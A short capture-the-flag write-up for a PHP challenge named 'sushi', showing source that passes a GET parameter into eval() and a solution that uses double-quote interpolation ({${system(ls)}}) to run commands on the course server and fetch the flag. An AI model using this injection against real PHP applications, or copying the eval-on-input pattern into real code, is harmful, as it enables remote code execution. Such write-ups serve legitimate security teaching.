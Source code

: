 # sushi

## Description:

> 好ㄘ的蘇洗宰爭先

```php
<?php
// PHP is the best language for hacker
// Find the flag !!
highlight_file(__FILE__);
$_ = $_GET['🍣'];

if( strpos($_, '"') !== false || strpos($_, "'") !== false )
    die('Bad Hacker :(');

eval('die("' . substr($_, 0, 16) . '");');
```

## Solution:

`system()` can be executed using php double quote evaluation.

```
https://edu-ctf.csie.org:10152/?🍣={${system(ls)}}
```

This will give the following output:

```console
flag_name_1s_t00_l0ng_QAQQQQQQ index.php phpinfo.php
```

The query is restricted to 16 bytes. However, since the flag file is in the root directory, it can be accessed through url:

```
https://edu-ctf.csie.org:10152/flag_name_1s_t00_l0ng_QAQQQQQQ
```

`FLAG{HaoChihDeSuSiZaiJhengSian}`
